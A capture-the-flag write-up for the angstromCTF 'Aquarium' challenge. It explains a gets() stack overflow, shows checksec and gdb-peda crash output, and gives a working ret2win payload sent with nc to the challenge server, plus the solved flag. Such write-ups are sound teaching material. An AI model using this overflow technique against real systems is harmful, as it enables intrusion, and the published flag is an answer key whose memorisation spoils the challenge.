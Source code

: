 Aquarium
========
**Category**: binary  **Points**: 50

Challenge Description
------------
We were given the source code and the challenge binary. 

Within the source code we can see a gets(name) which will read in all our inputs thus overwriting the stack.

checksec
```
[*] '/root/Documents/ctf/angstromctf/binary/aquarium/aquarium'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Challenge Description
------------
In gdb-peda, run <<< $(python -c "print 'A'*160"), or we could find the offset with a cyclic pattern

```
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde40 ('A' <repeats 27 times>)
RBX: 0x0 
RCX: 0x4141414141414141 ('AAAAAAAA')
RDX: 0x41414141 ('AAAA')
RSI: 0x7fffffffde30 ('A' <repeats 11 times>)
RDI: 0x7fffffffddf0 ('A' <repeats 11 times>)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffde40 ('A' <repeats 27 times>)
RIP: 0x414141 ('AAA')
R8 : 0x7ffff7f99760 --> 0xfbad2887 
R9 : 0x7ffff7f9a8c0 --> 0x0 
R10: 0xfffffffffffff4e9 
R11: 0x7ffff7f59a60 --> 0xfff20cc0fff20cb0 
R12: 0x4010d0 (<_start>:	repz nop edx)
R13: 0x7fffffffdf70 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x414141
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde40 ('A' <repeats 27 times>)
0008| 0x7fffffffde48 ('A' <repeats 19 times>)
0016| 0x7fffffffde50 ('A' <repeats 11 times>)
0024| 0x7fffffffde58 --> 0x4141414100414141 ('AAA')
0032| 0x7fffffffde60 ('A' <repeats 44 times>)
0040| 0x7fffffffde68 ('A' <repeats 36 times>)
0048| 0x7fffffffde70 ('A' <repeats 28 times>)
0056| 0x7fffffffde78 ('A' <repeats 20 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000414141 in ?? ()
gdb-peda$ 

```

We can see we've gained control of the rip.

Modify the last 3 bytes to the address of flag() (0x4011b6)

```
$ python -c "print 'A' * 158 + '\xb6\x11\x40'" | nc shell.actf.co 19305
Enter the number of fish in your fish tank: Enter the size of the fish in your fish tank: Enter the amount of water in your fish tank: Enter the width of your fish tank: Enter the length of your fish tank: Enter the height of your fish tank: Enter the name of your fish tank: actf{overflowed_more_than_just_a_fish_tank}
Segmentation fault (core dumped)

```
flag: `actf{overflowed_more_than_just_a_fish_tank}`
